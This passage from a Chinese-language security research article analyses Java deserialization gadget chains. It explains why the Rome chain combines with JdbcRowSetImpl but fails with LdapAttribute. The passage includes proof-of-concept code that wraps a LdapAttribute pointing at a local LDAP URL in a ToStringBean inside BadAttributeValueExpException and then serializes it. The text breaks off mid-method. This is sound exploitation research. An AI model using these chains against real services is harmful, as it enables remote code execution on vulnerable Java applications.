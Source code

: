 总之就是在这个机缘巧合之下，getter存放顺序很合适，使得**在调用到`getDatabaseMetaData()`之前都不会报错**

从而**Rome链可以结合JdbcRowSetImpl使用！**

#### LdapAttribute

Rome链不可以结合LdapAttribute使用，同样是很反直觉的一个现象，让我们看看LdapAttribute中的getter  
[![](assets/1698893403-026acc9ce44531c9c0401a92bcff2c82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017210246-77dc525a-6ced-1.png)

方法很少，并且都不会强制报错，我们的目标是调用到`getAttributeDefinition`

按理说没啥问题，在`getAttributeDefinition` 处下断点，调试一下

```plain
public static void main(String[] args) throws Exception{
        Object obj = newInstance("com.sun.jndi.ldap.LdapAttribute", new Class<?>[]{String.class},"id");
        setFieldValue(obj, "baseCtxURL", "ldap://127.0.0.1:11123");
        setFieldValue(obj, "rdn", new CompositeName("whocansee"+"//b"));

        ToStringBean toStringBean = new ToStringBean(obj.getClass(),obj);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
    public static Object newInstance(String classname, Class<?>[] paramTypes, Object... args) throws NoSuchMethodException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {
        return getConstructor(classname, paramTypes).newInstance(args);
    }
    public static Constructor<?> getConstructor(String classname, Class<?>[] paramTypes) throws ClassNotFoundException, NoSuchMethodException {
        Constructor<?> ctor = Class.forName(classname).getDeclaredConstructor(paramTypes);
        ctor.setAccessible(true);
        return ctor;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
```